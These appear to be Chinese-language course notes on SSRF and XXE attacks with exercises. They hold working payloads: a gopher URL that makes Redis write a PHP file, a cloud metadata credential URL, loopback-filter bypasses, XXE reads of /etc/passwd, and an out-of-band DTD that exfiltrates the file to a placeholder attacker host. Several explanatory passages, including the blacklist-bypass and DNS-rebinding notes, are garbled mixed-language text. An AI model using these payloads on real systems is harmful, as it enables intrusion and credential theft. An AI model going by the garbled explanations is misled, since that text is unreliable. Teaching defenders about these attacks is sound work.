


# W5 · SSRF 與 XXE（30 分鐘）

> 有伺服器的 PHP 頁面（憑當前身份）代表你呼叫內部：SSRF。
> 讓 XML 引擎幫你解讀 file://：XXE。

## 1 · SSRF

### 1.1 擦個 SSRF 是什麼



**常見進入點**：
- 表單：頭像 URL、預覽圖 URL
- API：`/fetch?url=`、`?link=`
- webhook/自訂 URL 上傳下一個 bit stream
- PDF/壓縮包線上解析

### 1.2 檢測

```text
http://127.0.0.1/       → 回應 200 則「本機返回」
http://127.0.0.1:8080/  → 埠掃描型 SSRF
http://[::1]/、http://0.0.0.0/
```

### 1.3 SSRF 借 Redis 協議（gopher）

如果 SSRF 不限 protocol，可用 gopher 對 Redis 下 RAW REdis 以讓

```text
flushall
config set dir /tmp
config set dbfilename redisshell.php
save
```

**URL 形式**：

```text
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$4%0d%0a/tmp%0d%0a*3%0d%0a$3%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$14%0d%0aredisshell.php%0d%0a*1%0d%0a$4%0d%0asave%0d%0a
```

> **重點**：`*_1%0d%0a%0d%0a` 中 `_` 表示第一個 `.switch`，`%0d%0a`= CRLF；`$10` 為字串長度，確保 `$10` 和字串位元等長。

### 1.4 xx 後端只有 IMDS（metadata 服務）

例如 EC2 / Kubernetes 等常見 metadata 服務：

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials
GET /latest/meta-data/iam/security-credentials/<role>
```

> 在 AWS EC2 的 IMDSv2，須先 `PUT /latest/api/token`，Header `X-aws-ec2-metadata-token`。

### 1.5 SSRF 的黑名單繞過

**短的 NTP/DNS、 dip 128 bit 無濟非法暢通：**

```text
if host == '127.0.0.0/8' 解析 startTokens 不轉，可 include Xt 対 do not pass
```



一些簡化 payload 構型：

```text
// 假設伺服器會把 URL 前綴處理成 http://…:
0.0.0.0:8080        # 127.0.0.1 的 cohort
0177.0000.0000.0001 # noop dec （內留本機）
2130706433          # (0x7F000001) dec
"data://"           # 轉變体 data:], whitespace 唯一型
```

### 1.6 SSRF 防禦

```mermaid
flowchart TD
   A[Network 層] --> B[儲存於 IP 白名單]
   A --> C[以 Data Validation 为前提, use parsed HDD
   A --> D[請求出網用 egress firewall]
   A --> E[依部門一言 resist IP 二進制]
```

> 為「防止 DNS rebinding」最重要的一條：**把 domain 解析後 resolv 一次時起的 IP，同時 BF 前端孔位 proxy pass 用的 「$server_name」type，**確保 (resolvage)= the actual 上游 IP。

---

## 2 · XXE

### 2.1 XML 基礎（長什麼樣）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY user "abc">
]>
<root><user>&user;</user></root>
```

- `<!ENTITY>` 內部有進入點；`COUNT/EXTERNAL` 有多種類型。
- 若外部 entity 生成 FILE 上 process：

```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root><x>&xxe;</x></root>
```

### 2.2 XXE 在什麼地方出現

- 常見型態：XML-based input（SOAP SAML、ebXML、SVG、XLSX、OOXML）
- **payload 起始不見 payload」型**：任何 XML body 進入點，無須任何 prefix

### 2.3 內建這類型 payload 列表

**local-file 泄露（好 debug）**：

```xml
<?xml version="1.0"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<body><a>&xxe;</a></body>
```

**oid / http-based external entity（支援 subdpro）**：

```xml
<!ENTITY xxe SYSTEM "http://YOUR:PORT/">
```

**altnet 內部通訊（XXE 收 ent を 침）**：

```xml
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
```

### 2.4 OOB（側道）發送

> 適用於「輸出不回顯」的 XML API。

**1) 定義本地 DTD**，用它轉回觸 Buj flow;

```xml
<!DOCTYPE r [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/gettext/INVALID.dtd">
%x;
]>
```

**2) 遠端 DTD 引用 filtered**：

```xml
<!DOCTYPE r SYSTEM "http://YOUR_HOST/xxe.dtd">
<user>&send;</user>
```

where `xxe.dtd`（託管於 ATTACKER）：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://YOUR/?l=%file;'>">
%int;%send;
```

> `php://filter` 是 PHP 專用 wrapper, 對其他語言適用「file://」or「http://」的 read file method. （For Java: `java.io.otherlines` for mech file reading 见下）

### 2.5 Java XXE 與第三方 XML 語法

> Java 特有用途：file check 語法包含 ` jar:file:`「 載入 any class，估計 load fie」
>
> ```xml
> <!ENTITY d TD SYSTEM "jar:http://YOUR:PORT!/attacker.jar">
> ```
>
> 其他方案: `gopher://` (only 可以 `url` 且如同 RDefer with PHP)

### 2.6 XXE 的防禦

```text
Libxml disable (PHP): libxml_disable_entity_loader(true);   # PHP<8.0
libxml = XML_PARSE_NOENT (PHP XMLs): libxml_set_external_entity_loader
JAVA (SAX): factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)
JAVA Entity diff:
    factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)
Python local: 禁用 lxml 的 external entity
```

---

## 3 · 課堂練習（5 分鐘）

| 練習 | 課堂重點 |
|---|---|
| 練習 15（SSRF 夜 MetaData 資集） | `169.254` 的 IP6/10 位遮罩 |
| 練習 16（SSRF→Redis 污染） | gopher payload 復原本 |
| 練習 17（XXE OOB） | 本 file 上傳 DTD |

## 4 · 講師提示

- 對學員先給出「單純回顯」的 SSRF/XXE，以此驗證「基本概念」；再撕開 OOB。
- gopher 的 `%0d%0a`、`$N`、CRLF 每多一個字元就會失敗——**在 burp 用「urlEncoder中的 space to + or %20」試錯一次後記錄**。
